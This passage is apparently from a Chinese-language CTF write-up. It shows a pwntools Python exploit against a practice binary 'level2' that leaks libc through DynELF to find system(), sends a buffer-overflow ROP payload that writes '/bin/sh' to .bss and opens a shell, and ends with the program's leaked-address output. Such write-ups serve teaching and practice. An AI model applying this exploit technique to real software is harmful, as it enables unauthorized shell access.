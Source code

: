 ``` python
p = process('./level2')
#p = remote('127.0.0.1', 10002)

d = DynELF(leak, elf=ELF('./level2'))

system_addr = d.lookup('system', 'libc')
print "system_addr=" + hex(system_addr)

bss_addr = 0x0804a020
pppr = 0x804855d

payload2 = 'a'*140  + p32(plt_read) + p32(pppr) + p32(0) + p32(bss_addr) + p32(8) 
payload2 += p32(system_addr) + p32(vulfun_addr) + p32(bss_addr)
#ss = raw_input()

print "\n###sending payload2 ...###"
p.send(payload2)
p.send("/bin/sh\0")

p.interactive()
```
执行结果如下：  
``` 
$ python exp4.py 
[+] Started program './level2'
0x8048000 => 7f454c46
[+] Loading from '/home/mzheng/CTF/level2': Done
0x8049ff8 => 18697eb7
[+] Resolving 'system' in 'libc.so': 0xb77e6918
0x8049f28 => 01000000
0x8049f30 => 0c000000
0x8049f38 => 0d000000
0x8049f40 => f5feff6f
0x8049f48 => 05000000
0x8049f50 => 06000000
0x8049f58 => 0a000000
0x8049f60 => 0b000000
0x8049f68 => 15000000
0x8049f70 => 03000000
0x8049f74 => f49f0408
0xb77e691c => c5eb7db7
0xb77debc5 => 0069203d
0xb77e6924 => 086c7eb7
0xb77e6c0c => c5eb7db7
0xb77e6c14 => 58387cb7
0xb77c385c => 38387cb7
0xb77c3838 => 2f6c6962
0xb77c383c => 2f693338
0xb77c3840 => 362d6c69
0xb77c3844 => 6e75782d
0xb77c3848 => 676e752f
0xb77c384c => 6c696263
0xb77c3850 => 2e736f2e
0xb77c3854 => 36000000
0xb77c3858 => 007060b7
0xb7607000 => 7f454c46
0xb77c3860 => 7cdd7ab7
0xb7607004 => 01010100
0xb77add7c => 01000000
0xb77add84 => 0e000000
0xb77add8c => 0c000000
0xb77add94 => 19000000
0xb77add9c => 1b000000
```